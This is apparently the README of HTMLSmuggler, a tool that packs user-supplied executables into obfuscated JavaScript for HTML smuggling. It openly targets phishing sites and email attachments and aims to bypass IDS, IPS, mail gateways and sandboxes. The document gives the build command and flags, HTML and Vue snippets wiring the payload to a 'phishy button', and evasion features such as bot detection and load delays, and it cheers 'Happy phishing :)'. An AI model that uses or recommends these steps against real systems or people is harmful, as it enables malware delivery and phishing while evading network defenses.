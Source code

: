 # HTMLSmuggler ✉️

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)

HTMLSmuggler - JS payload generator for IDS bypass and payload delivery via HTML smuggling.

## Description

The full explanation what is HTML Smuggling may be found [here](https://outflank.nl/blog/2018/08/14/html-smuggling-explained/).

The primary objective of HTML smuggling is to bypass network security controls, such as firewalls and intrusion detection systems, by disguising malicious payloads (e.g. executables/archives/etc.) within seemingly harmless HTML and JavaScript code. By exploiting the dynamic nature of web applications, attackers can deliver malicious content to a user's browser without triggering security alerts or being detected by traditional security mechanisms. Thanks to this technique, the download of a malicious file is not displayed in any way in modern IDS solutions.

The main goal of HTMLSmuggler tool is creating an independent javascript library with embedded malicious user-defined payload. This library may be integrated into your phishing sites/email html attachments/etc. to deliver embedded payload to the target user system (bypassing IDS and IPS system). An example of created javascript library may be found [here](examples/html/payload.umd.js).

## Features

* Built-in highly configurable JavaScript obfuscator that fully hides your payload makes it impossible to extract your payload from javascript manually.
* Powerful client-side bots and headless crawlers detection library that doesn't share your payloads with smart secure mail gateways and their friends.
* Delay before loading to avoid sandboxes that are in a hurry.
* May be used both as an independent JS library or embedded in JS frameworks such as React, Vue.js, etc.
* The simplicity of the template allows you to add extra data handlers/compressions/obfuscations.
* Support a lot of browsers (including old IE10).

## Installation

1. [Install yarn](https://classic.yarnpkg.com/lang/en/docs/install/) package manager.
2. Install dependencies:

    ```bash
    yarn
    ```

3. Read help message.

    ```bash
    yarn build -h
    ```

    ```text
    Options:
      -p, --payload <string>   Path to payload file you want to smuggle
      -n, --name <string>      Name of file, that would be downloaded
      -t, --type <string>      Contet-Type of downlonaded file (default: "application/octet-stream")
      -f, --function <string>  Name of exported function (default: "download")
      -c, --compress           Enable payload compression (gzip)
      -d, --delay <number>     Delay before antibot and download in ms (default: 0)
      -a, --antibot            Enable bot detection and block them (recommended)
      -h, --help               display help for command
    ```

## Usage

### Preparation steps

1. **(Optional)** Modify [javascript-obfuscator options](https://github.com/javascript-obfuscator/javascript-obfuscator#javascript-obfuscator-options) in `obfuscator.js`, my preset is nice, but very slow.
2. Compile your javascript payload:

    > ⚠️ AVOID USAGE OF PAYLOADS BIGGER THAN 3 MiB (see [FAQ](#faq))

    ```bash
    yarn build -p /path/to/payload -n file.exe -t "application/octet-stream" -c -a -d 3000
    ```

3. Get your payload from `dist/payload.esm.js` or `dist/payload.umd.js`. After that, it may be inserted into your page and called with `download()` (or custom specified with `-f` flag) function.

    > `payload.esm.js` is used in `import { download } from 'payload.esm';` imports (ECMAScript standart).
    >
    > `payload.umd.js` is used in html script SRC and `require('payload.umd');` imports (CommonJS, AMD and pure html).

### Pure HTML example

A full example may be found [here](examples/html/).

1. Do [preparation steps](#preparation-steps).
2. Import created script to html file (or insert it inline):

    ```html
    <head>
      <script src="payload.umd.js"></script>
    </head>
    ```

3. Call `download()` function from body:

    ```html
    <body>
      <button onclick="download()">Some phishy button</button>
    </body>
    ```

4. Happy phishing :)

### VueJS example

A full example may be found [here](examples/vuejs/).

1. Do [preparation steps](#preparation-steps).
2. Import created script to vue file:

    ```vue
    <script>
      import { download } from './payload.esm';
    </script>
    ```

3. Call `download()` function:

    ```vue
    <template>
      <button @click="download()">Some phishy button</button>
    </template>
    ```

4. Happy phishing :)

## FAQ

**Q**: I have an error `RangeError: Maximum call stack size exceeded`, how to solve it?

**A**: This [issue described here](https://github.com/javascript-obfuscator/javascript-obfuscator/issues/89). To fix it, try to disable `splitStrings` in `obfuscator.js` or make smaller payload (it's recommended to use up to 2 MB payloads because of this issue).

---

**Q**: Why does my payload build so long?

**A**: The bigger payload you use, the longer it takes to create a JS file. To decrease time of build, try to disable `splitStrings` in `obfuscator.js`. Below is a table with estimated build times using default `obfuscator.js`.

| Payload size | Build time |
| --- | --- |
| 525 KB | 53 s |
| 1.25 MB | 8 m |
| 3.59 MB | 25 m |
